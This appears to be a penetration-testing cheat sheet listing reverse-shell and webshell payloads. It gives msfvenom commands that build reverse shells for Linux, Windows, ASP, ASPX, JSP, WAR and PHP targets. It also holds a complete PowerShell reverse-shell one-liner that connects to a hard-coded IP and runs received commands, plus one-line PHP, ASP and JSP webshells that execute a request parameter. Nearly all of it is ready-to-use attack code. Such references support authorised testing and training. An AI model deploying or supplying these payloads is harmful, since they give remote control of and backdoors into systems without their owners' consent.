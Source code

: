 # Shells

## Reverse shells


#### Linux - MSFVenom
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### Windows - MSFVenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### Powershell
```
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.194',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### ASP
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```
#### ASPX
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx
```
#### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```
#### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```
#### PHP
```
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

#### Online Generator
<https://www.revshells.com/>


## Single line Webshell

#### PHP
```
<?php echo passthru($_GET['cmd']); ?>
<?php echo shell_exec($_GET['cmd']); ?>
```
#### ASP
```
<% eval request("cmd") %>
```
#### JSP
```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
